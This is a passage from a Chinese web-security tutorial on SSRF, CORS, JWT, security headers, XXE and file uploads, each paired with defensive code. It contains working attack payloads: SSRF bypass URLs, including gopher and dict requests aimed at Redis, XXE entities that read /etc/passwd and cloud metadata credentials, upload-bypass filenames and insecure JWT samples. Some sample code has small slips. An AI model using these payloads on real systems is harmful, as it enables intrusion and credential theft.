    url = request.args.get('url')
    # ❌ 危险：直接请求用户指定的URL
    response = requests.get(url)
    return response.text

# 场景二：图片下载/处理
@app.route('/download-image')
def download_image():
    image_url = request.args.get('image_url')
    # ❌ 危险：下载用户指定的图片
    img_data = requests.get(image_url).content

# 场景三：Webhook回调
@app.route('/webhook', methods=['POST'])
def webhook():
    callback_url = request.json.get('callback_url')
    # ❌ 危险：向用户指定的URL发送回调
    requests.post(callback_url, json={'status': 'ok'})

# 场景四：SVG处理（解析XML时触发XXE+SSRF）
@app.route('/process-svg', methods=['POST'])
def process_svg():
    svg_data = request.files['svg'].read()
    # ❌ 危险：解析用户上传的SVG中的外部实体
    from lxml import etree
    parser = etree.XMLParser(resolve_entities=True)
    tree = etree.fromstring(svg_data, parser=parser)
```

#### 3.4.3 SSRF绕过技巧

攻击者常用的绕过手段：

# 1. IP地址十进制/八进制表示
http://2130706433     → 127.0.0.1（十进制）
http://0177.0.0.1     → 127.0.0.1（八进制）
http://0x7f000001     → 127.0.0.1（十六进制）

# 2. IPv6表示
http://[::1]          → 127.0.0.1
http://[0:0:0:0:0:ffff:127.0.0.1]  → 127.0.0.1

# 3. 短域名服务（利用DNS重定向）
http://nip.io         → 解析为任意IP
http://127.0.0.1.nip.io → 127.0.0.1
http://spoofed.burpcollaborator.net → 攻击者控制的IP

# 4. 协议混淆
dict://127.0.0.1:6379/info    → 连接Redis
gopher://127.0.0.1:6379/_*   → Gopher协议攻击内网
tftp://127.0.0.1:69/file     → TFTP协议

# 5. URL解析差异
http://127.0.0.1@evil.com    → 解析为evil.com但部分库解析为127.0.0.1
http://127.0.0.1%2523@evil.com → 双重URL编码绕过

# 6. DNS重绑定攻击
# 第一次DNS解析返回外网IP（通过验证）
# 第二次DNS解析返回内网IP（实际请求）

#### 3.4.4 SSRF防御策略

```python
import ipaddress
from urllib.parse import urlparse
import socket

def is_safe_url(url):
    """SSRF防护：URL安全验证"""
    
    try:
        parsed = urlparse(url)
    except ValueError:
        return False
    
    # 1. 协议白名单：只允许HTTP/HTTPS
    if parsed.scheme not in ('http', 'https'):
        return False
    
    # 2. 禁止访问内网地址
    hostname = parsed.hostname
    if not hostname:
        return False
    
    try:
        # 解析为IP地址
        ip = ipaddress.ip_address(socket.gethostbyname(hostname))
        
        # 内网地址段检查
        if ip.is_private:       # 10.x, 172.16-31.x, 192.168.x
            return False
        if ip.is_loopback:      # 127.x
            return False
        if ip.is_link_local:    # 169.254.x (云元数据)
            return False
        if ip.is_reserved:      # 保留地址
            return False
    except (socket.gaierror, ValueError):
        return False
    
    # 3. 黑名单扩展（兜底）
    blocked_hosts = ['localhost', 'metadata.google.internal', '169.254.169.254']
    if hostname in blocked_hosts:
        return False
    
    return True

# 使用示例
@app.route('/fetch-url')
def fetch_url():
    url = request.args.get('url')
    if not is_safe_url(url):
        return 'Invalid URL', 400
    # 允许请求...
```

**其他防御措施：**

├── 使用DNS解析验证：解析域名后检查IP是否为内网
├── 限制出站网络：防火墙规则限制服务器只能访问必要外部地址
├── 禁用不必要的协议：只允许HTTP/HTTPS，禁用file://、gopher://、dict://
├── 网络隔离：将Web服务器和内部服务置于不同网段
├── 云环境：使用IMDSv2（AWS）替代IMDSv1，防止元数据窃取
│   └── IMDSv2要求PUT请求获取token，有效防御SSRF
└── 响应内容过滤：即使允许请求，也不将原始响应返回给用户

---

### 3.5 CORS配置安全（Cross-Origin Resource Sharing）

CORS是浏览器的同源策略机制，错误配置会导致严重的安全问题。许多开发者将CORS配置为 `Access-Control-Allow-Origin: *` 以快速解决跨域问题，这实际上是**放弃了浏览器的安全屏障**。

#### 3.5.1 CORS配置错误的三种危险模式

```python
# ❌ 危险模式一：反射Origin（最常见的错误）
@app.after_request
def add_cors_headers(response):
    origin = request.headers.get('Origin')
    # 将用户请求的Origin原样返回，等同于允许任何域名访问
    response.headers['Access-Control-Allow-Origin'] = origin
    response.headers['Access-Control-Allow-Credentials'] = 'true'
    # 攻击者从 evil.com 发请求，浏览器看到 Allow-Origin: evil.com + Allow-Credentials: true
    # → 允许攻击者读取用户的敏感数据
    return response

# ❌ 危险模式二：通配符 + 凭据
response.headers['Access-Control-Allow-Origin'] = '*'
response.headers['Access-Control-Allow-Credentials'] = 'true'
# 注意：浏览器实际上会拒绝这个组合，但很多开发者不知道这一点

# ❌ 危险模式三：正则匹配过于宽松
import re
if re.match(r'https://.*\.example\.com', origin):
    response.headers['Access-Control-Allow-Origin'] = origin
# 攻击者注册 https://evil.example.com → 匹配成功
```

#### 3.5.2 CORS安全配置

```python
# ✅ 安全配置：白名单验证
ALLOWED_ORIGINS = {
    'https://app.example.com',
    'https://www.example.com',
    'https://admin.example.com',
}

@app.after_request
def add_cors_headers(response):
    origin = request.headers.get('Origin')
    
    if origin in ALLOWED_ORIGINS:
        response.headers['Access-Control-Allow-Origin'] = origin
        response.headers['Access-Control-Allow-Credentials'] = 'true'
        response.headers['Access-Control-Allow-Methods'] = 'GET, POST, PUT, DELETE'
        response.headers['Access-Control-Allow-Headers'] = 'Content-Type, Authorization'
        response.headers['Access-Control-Max-Age'] = '3600'  # 预检缓存1小时
    
    return response
```

```nginx
# Nginx CORS配置
# ✅ 安全：使用map指令动态匹配Origin
map $http_origin $cors_origin {
    default "";
    "https://app.example.com" $http_origin;
    "https://www.example.com" $http_origin;
}

server {
    location /api/ {
        if ($cors_origin != "") {
            add_header Access-Control-Allow-Origin $cors_origin always;
            add_header Access-Control-Allow-Credentials "true" always;
            add_header Access-Control-Allow-Methods "GET, POST, PUT, DELETE" always;
            add_header Access-Control-Allow-Headers "Content-Type, Authorization" always;
        }
    }
}
```

#### 3.5.3 CORS攻击场景

攻击场景：用户登录了 bank.com，访问了 evil.com

1. evil.com 发起跨域请求到 bank.com/api/account
2. 浏览器附带 bank.com 的Cookie
3. 如果 bank.com 配置了 Allow-Origin: * + Allow-Credentials: true
4. 浏览器允许 evil.com 读取响应内容
5. 攻击者获取用户的账户信息

关键区别：
├── 无CORS：浏览器允许请求发送，但JS无法读取响应（同源策略）
├── 错误CORS：浏览器允许请求发送 + JS可以读取响应（最危险）
└── 正确CORS：仅允许白名单域名的JS读取响应

---

### 3.6 JWT安全（JSON Web Token）

JWT广泛用于API认证和授权，但配置不当会带来严重的安全隐患。

#### 3.6.1 JWT结构与常见漏洞

JWT结构：Header.Payload.Signature
eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJ1c2VyMSJ9.signature

常见漏洞：
├── none算法攻击：将alg改为"none"，跳过签名验证
├── 密钥泄露：弱密钥被暴力破解
├── 敏感信息泄露：Payload中包含密码等敏感数据
├── 过期时间过长：Token长期有效，泄露后难以控制
└── 缺少签发者验证：未验证iss字段，接受任意来源的Token

#### 3.6.2 JWT安全配置

```python
# ❌ 不安全的JWT使用
import jwt

# 1. 使用none算法
token = jwt.encode({'sub': 'admin'}, algorithm='none')

# 2. 弱密钥
token = jwt.encode({'sub': 'admin'}, 'secret', algorithm='HS256')
# 'secret' 可被暴力破解

# 3. Payload包含敏感信息
token = jwt.encode({
    'sub': 'user1',
    'password': 'hashed_password',  # ❌ 不应放在Token中
    'role': 'admin',
    'ssn': '123-456-7890'  # ❌ 绝对不应该
}, 'key', algorithm='HS256')


# ✅ 安全的JWT使用
import jwt
from datetime import datetime, timedelta

SECRET_KEY = os.environ['JWT_SECRET_KEY']  # 至少256位随机密钥

def create_token(user_id, role):
    """安全创建JWT"""
    payload = {
        'sub': user_id,
        'role': role,
        'iat': datetime.utcnow(),                    # 签发时间
        'exp': datetime.utcnow() + timedelta(hours=1),  # 1小时过期
        'iss': 'myapp.example.com',                  # 签发者
        'jti': str(uuid.uuid4())                     # 唯一ID，用于吊销
    }
    return jwt.encode(payload, SECRET_KEY, algorithm='HS256')

def verify_token(token):
    """安全验证JWT"""
    try:
        payload = jwt.decode(
            token,
            SECRET_KEY,
            algorithms=['HS256'],      # 明确指定允许的算法
            options={
                'require': ['exp', 'iss', 'sub'],  # 强制要求字段
                'verify_exp': True,
                'verify_iss': True,
            },
            issuer='myapp.example.com'  # 验证签发者
        )
        return payload
    except jwt.ExpiredSignatureError:
        raise ValueError('Token已过期')
    except jwt.InvalidTokenError as e:
        raise ValueError(f'无效Token: {e}')
```

JWT安全检查清单：
├── 使用RS256（非对称）而非HS256（对称）—— 私钥不暴露给前端
├── 密钥长度 ≥ 256位（HS256）或使用RSA 2048+
├── 显式指定 algorithms=['HS256']，禁止 none 算法
├── 设置合理的过期时间（访问令牌15分钟，刷新令牌7天）
├── 不在Payload中存放敏感信息（密码、SSN等）
├── 实现Token吊销机制（Redis黑名单或jti检查）
├── 验证iss、aud字段
└── 使用HTTPS传输

---

### 3.7 安全头部配置（Security Headers）

HTTP安全头部是防御Web攻击的第一道防线，配置正确可以显著降低XSS、点击劫持、嗅探等攻击的风险。以下是最关键的7个安全头部及其推荐配置。

#### 3.7.1 七大安全头部详解

| 头部 | 作用 | 推荐值 | 安全评级网站 |
|------|------|--------|-------------|
| Content-Security-Policy | 防XSS：控制资源加载来源 | 见3.2.4 CSP章节 | securityheaders.com |
| X-Content-Type-Options | 防MIME嗅探：阻止浏览器猜测文件类型 | `nosniff` | 安全评级必备 |
| X-Frame-Options | 防点击劫持：禁止iframe嵌入 | `DENY` 或 `SAMEORIGIN` | 已被CSP替代 |
| Strict-Transport-Security | 强制HTTPS：浏览器记住使用HTTPS | `max-age=31536000; includeSubDomains` | 防降级攻击 |
| Referrer-Policy | 控制Referer信息泄露 | `strict-origin-when-cross-origin` | 防信息泄露 |
| Permissions-Policy | 限制浏览器功能 | `camera=(), microphone=()` | 防隐私泄露 |
| X-XSS-Protection | 过时的XSS过滤器 | `0`（已废弃，依赖CSP） | 不推荐 |

```nginx
# Nginx完整安全头部配置
server {
    listen 443 ssl http2;
    server_name example.com;

    # --- 安全头部 ---
    
    # 防MIME嗅探
    add_header X-Content-Type-Options "nosniff" always;
    
    # 防点击劫持
    add_header X-Frame-Options "DENY" always;
    
    # 强制HTTPS（2年有效期）
    add_header Strict-Transport-Security "max-age=63072000; includeSubDomains; preload" always;
    
    # 控制Referer
    add_header Referrer-Policy "strict-origin-when-cross-origin" always;
    
    # 限制浏览器功能
    add_header Permissions-Policy "camera=(), microphone=(), geolocation=(), payment=()" always;
    
    # 禁用旧版XSS过滤（依赖CSP更可靠）
    add_header X-XSS-Protection "0" always;
    
    # CSP（根据业务需求自定义）
    add_header Content-Security-Policy "default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline'; img-src 'self' data: https:; connect-src 'self'; frame-ancestors 'none';" always;
    
    # --- 其他安全配置 ---
    
    # 隐藏服务器版本信息
    server_tokens off;
    
    # 禁止目录列表
    autoindex off;
}
```

#### 3.7.2 点击劫持（Clickjacking）防护详解

点击劫持是一种视觉欺骗攻击：攻击者将目标网站嵌入透明iframe上层，覆盖在诱骗内容上，用户以为在点击正常按钮，实际点击的是底层iframe中的操作。

攻击原理：
┌──────────────────────────┐
│  用户看到的：              │
│  ┌─────────────────────┐ │
│  │  "点击领取奖品" 按钮 │ │ ← 用户以为点的是这个
│  └─────────────────────┘ │
│                          │
│  ┌─────────────────────┐ │
│  │  透明iframe          │ │ ← 实际是银行转账按钮
│  │  (opacity: 0)       │ │
│  └─────────────────────┘ │
└──────────────────────────┘

防御：X-Frame-Options + CSP frame-ancestors

---

### 3.8 XXE注入（XML External Entity）

XXE（XML External Entity）是利用XML解析器解析用户提供的XML数据时，执行外部实体引用的攻击方式。可导致文件读取、SSRF、甚至远程代码执行。

#### 3.8.1 攻击原理

```xml
<!-- 攻击者构造的恶意XML -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<user>
  <name>&amp;xxe;</name>
</user>

<!-- 解析后，&amp;xxe; 被替换为 /etc/passwd 的内容 -->
<!-- 结果：<name>root:x:0:0:root:/root:/bin/bash</name> -->
```

```xml
<!-- 更危险：利用XXE进行SSRF -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/">
]>
<user>
  <name>&amp;xxe;</name>
</user>

<!-- 读取AWS元数据服务，获取IAM凭据 -->
```

#### 3.8.2 防御策略

```python
# ❌ 不安全的XML解析
from lxml import etree

# 默认启用外部实体解析
parser = etree.XMLParser()
tree = etree.fromstring(user_xml, parser=parser)  # 可被XXE攻击

# ✅ 安全的XML解析
parser = etree.XMLParser(
    resolve_entities=False,      # 禁用实体解析
    no_network=True,            # 禁止网络请求
    dtd_validation=False,       # 禁用DTD验证
    load_dtd=False,             # 不加载DTD
)
tree = etree.fromstring(user_xml, parser=parser)

# ✅ 更安全：使用defusedxml库
import defusedxml.lxml
tree = defusedxml.lxml.fromstring(user_xml)  # 自动禁用危险特性

# ✅ Java: 禁用外部实体
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true);
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
```

XXE防御检查清单：
├── 禁用XML外部实体解析（所有XML解析器都需要）
├── 使用defusedxml等安全库
├── 如不需要DTD验证，完全禁用DTD
├── 对XML输入进行大小限制（防止XML炸弹/Billion Laughs攻击）
├── 优先使用JSON代替XML
└── 定期更新XML解析库

---

### 3.9 文件上传安全

文件上传是Web应用中最危险的功能之一，不当的文件上传可能导致远程代码执行（RCE）。

#### 3.9.1 文件上传攻击类型

├── Webshell上传：上传.php/.jsp/.aspx文件，直接执行系统命令
├── 文件类型绕过：修改Content-Type或扩展名绕过检查
│   ├── 双扩展名：shell.php.jpg → Apache解析为PHP
│   ├── 大小写：shell.pHp → Windows不区分大小写
│   └── 空字节：shell.php%00.jpg → PHP <5.3.4截断
├── 路径穿越：文件名包含 ../ 写入任意目录
├── 文件内容攻击：图片木马（在图片中嵌入PHP代码）
├── 压缩炸弹：上传超大压缩文件耗尽服务器资源
├── SSRF via 文件上传：SVG文件中嵌入外部实体请求内网
└── 文件名漏洞：特殊字符导致解析错误

#### 3.9.2 安全的文件上传实现

```python
import os
import uuid
import imghdr
from werkzeug.utils import secure_filename

UPLOAD_FOLDER = '/var/uploads'
ALLOWED_EXTENSIONS = {'png', 'jpg', 'jpeg', 'gif', 'pdf', 'doc', 'docx'}
MAX_FILE_SIZE = 10 * 1024 * 1024  # 10MB

def is_allowed_file(filename, content):
    """多重验证文件安全性"""
    
    # 1. 扩展名白名单
    ext = filename.rsplit('.', 1)[-1].lower() if '.' in filename else ''
    if ext not in ALLOWED_EXTENSIONS:
        return False
    
    # 2. 魔数验证（文件头签名），不依赖扩展名
    magic_bytes = {
        b'\x89PNG': 'png',
        b'\xff\xd8\xff': 'jpg',
        b'GIF8': 'gif',
        b'%PDF': 'pdf',
    }
    detected_type = None
    for magic, filetype in magic_bytes.items():
        if content[:4].startswith(magic):
            detected_type = filetype
            break
    if detected_type is None and ext not in ('doc', 'docx'):
        return False
    
    # 3. 文件大小限制
    if len(content) > MAX_FILE_SIZE:
        return False
    
    # 4. 生成安全文件名（UUID防止路径穿越和文件名注入）
    safe_filename = f"{uuid.uuid4().hex}.{ext}"
    
    return True, safe_filename

@app.route('/upload', methods=['POST'])
def upload_file():
    file = request.files.get('file')
    if not file:
        return 'No file provided', 400
    
    content = file.read()
    result = is_allowed_file(file.filename, content)
    if not result:
        return 'File type not allowed', 400
    
    _, safe_name = result
    
    # 5. 存储到安全目录（不在Web根目录下）
    filepath = os.path.join(UPLOAD_FOLDER, safe_name)
    with open(filepath, 'wb') as f:
        f.write(content)
    
    # 6. 设置文件权限（不可执行）
    os.chmod(filepath, 0o644)  # 只读，禁止执行
    
    return {'filename': safe_name, 'status': 'uploaded'}
```

文件上传安全检查清单：
├── 扩展名白名单（而非黑名单）
├── MIME类型验证（Content-Type头）
├── 文件内容魔数验证（不依赖扩展名）
├── 文件大小限制
├── 存储到Web根目录之外
├── 禁止执行权限（chmod 644）
├── 使用UUID重命名（防路径穿越）
├── 独立域名/CDN提供静态文件
├── 病毒扫描（ClamAV等）
└── 禁止SVG文件或严格净化SVG（防XXE）

---

### 3.10 安全开发实践清单

将安全融入开发生命周期（SDLC），而不仅仅在上线前才考虑。

#### 3.10.1 安全编码原则

纵深防御（Defense in Depth）：
  不要依赖单一防线，多层防御叠加
  例：参数化查询 + 输入验证 + 最小权限 + WAF

最小权限（Least Privilege）：
  每个组件只拥有完成工作所需的最小权限
  例：Web应用数据库账户不需要DROP权限

默认安全（Secure by Default）：
  新功能默认关闭危险特性，需要时显式开启
  例：CSP默认阻止所有外部资源

失败安全（Fail Securely）：
  系统出错时默认拒绝而非默认放行
  例：认证异常返回403而非绕过检查

不可信任用户输入（Never Trust User Input）：
  所有外部输入都可能是恶意的，必须验证和净化
  例：URL参数、表单字段、Cookie、HTTP头、文件上传

#### 3.10.2 安全测试方法

```bash
# 1. 静态应用安全测试（SAST）
# 分析源代码，发现潜在漏洞
bandit -r ./src/            # Python安全扫描
semgrep --config=p/owasp-top-ten ./src/  # 通用规则扫描

# 2. 动态应用安全测试（DAST）
# 运行时扫描，模拟真实攻击
nikto -h https://target.com        # Web漏洞扫描
nuclei -u https://target.com -t cves/  # 模板化漏洞扫描

# 3. 依赖安全扫描
# 检查第三方库的已知漏洞
pip-audit                      # Python依赖扫描
npm audit                      # Node.js依赖扫描
trivy fs ./                    # 通用依赖扫描

# 4. 手动渗透测试工具
# Burp Suite —— HTTP代理拦截与测试（行业标准）
# OWASP ZAP —— 免费替代品
# sqlmap —— SQL注入自动化检测
# ffuf/gobuster —— 目录/参数爆破
```

#### 3.10.3 常见安全误区与纠正

| 误区 | 正确做法 | 原因 |
|------|----------|------|
| "我们的系统不重要，不会被攻击" | 所有系统都是攻击目标 | 自动化扫描器无差别扫描全网 |
| "前端验证就够了" | 后端必须二次验证 | 前端验证可被绕过（Burp/DevTools） |
| "密码MD5加密存储很安全" | 使用bcrypt/Argon2 | MD5可被彩虹表秒破 |
| "WAF能挡住所有攻击" | WAF只是辅助防线 | WAF规则可被绕过 |
| "用了HTTPS就够了" | HTTPS只是传输层安全 | 无法防御应用层漏洞（XSS/注入） |
| "框架很安全，不需要额外防护" | 框架默认不开启所有安全特性 | CSP/CSRF等需要显式配置 |
| "用户输入都转义就安全了" | 根据输出上下文选择编码方式 | HTML/JS/URL各有不同编码规则 |
| "关闭报错信息就行了" | 安全是系统性工程 | 隐藏错误≠修复漏洞 |
| "CORS配 * 就能解决跨域" | 使用白名单验证Origin | 通配符+凭据=允许任意网站读取用户数据 |

---

### 3.11 Web安全防御速查表

| 攻击类型 | 攻击目标 | 核心防御 | 辅助防御 |
|----------|----------|----------|----------|
| SQL注入 | 数据库 | 参数化查询 | 输入验证 + WAF + 最小权限 |
| XSS跨站脚本 | 浏览器 | 输出编码 + CSP | HttpOnly Cookie + 输入净化 |
| CSRF请求伪造 | 用户操作 | CSRF Token + SameSite | 检查Referer/Origin |
| SSRF请求伪造 | 内网资源 | URL白名单验证 | 网络隔离 + DNS验证 |
| XXE注入 | XML解析器 | 禁用外部实体 | 使用defusedxml |
| CORS配置错误 | 跨域数据 | Origin白名单验证 | 不使用通配符+凭据 |
| JWT安全 | 认证授权 | 强密钥 + 算法白名单 | 短期Token + 吊销机制 |
| 文件上传漏洞 | 服务器 | 多重验证 + 安全存储 | 隔离执行环境 |
| 点击劫持 | 用户点击 | X-Frame-Options + CSP | 用户安全意识 |
| 路径遍历 | 文件系统 | 路径规范化 + 白名单 | chroot隔离 |

> **核心安全思维：** 永远不要信任用户输入（Never Trust User Input）。所有来自外部的数据——URL参数、表单字段、Cookie、HTTP头、文件上传——都必须经过验证、净化和编码处理后再使用。安全不是某个环节的事，而是贯穿整个开发周期的思维方式。纵深防御（Defense in Depth）是唯一可靠的安全策略：假设每一层都可能被突破，确保多层防御叠加使攻击成本远超收益。
